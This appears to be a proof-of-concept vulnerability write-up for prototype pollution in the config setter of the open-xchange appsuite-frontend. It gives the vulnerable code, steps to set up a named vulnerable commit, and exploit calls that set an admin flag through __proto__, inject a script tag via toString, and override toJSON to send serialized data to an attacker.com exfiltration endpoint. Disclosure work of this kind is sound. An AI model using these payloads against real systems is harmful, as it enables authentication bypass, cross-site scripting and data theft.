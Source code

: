 
**Vulnerable Code Path**:  
```javascript  
// Original vulnerable implementation (Line 56)  
set: function (key, value) {  
    var parts = key.split('.'),  
        temp = config,  
        part;  
    while (parts.length > 1) {  
        part = parts.shift();  
        if (!temp[part]) temp[part] = {};  
        temp = temp[part];  
    }  
    temp[parts.shift()] = value;  // VULNERABLE POINT  
}  
```  




### Step-by-Step Reproduction   
### Environment Setup  
```bash  
# Checkout vulnerable version  
git clone https://github.com/open-xchange/appsuite-frontend.git  
cd appsuite-frontend  
git checkout c4051eaec809de7f0d32f4fc3d1040f701fcd030  

# Install dependencies  
npm install  

# Start development server  
npm run dev  
```  

### Access Developer Console  
1. Open browser to `http://localhost:8337/appsuite/`  
2. Login with credentials console
   
### Execute Exploit  
```javascript  
// Pollution to bypass authentication  
ox.config.set('__proto__.isAdmin', true);  

// Pollution to hijack toString method  
ox.config.set('constructor.prototype.toString', function() {  
    return '<script>alert("HACKED")</script>';  
});  

// Pollution for data exfiltration  
ox.config.set('__proto__.toJSON', function() {  
    fetch('https://attacker.com/exfil', {  
        method: 'POST',  
        body: JSON.stringify(this)  
    });  
    return JSON.stringify(this);  
});  
```  
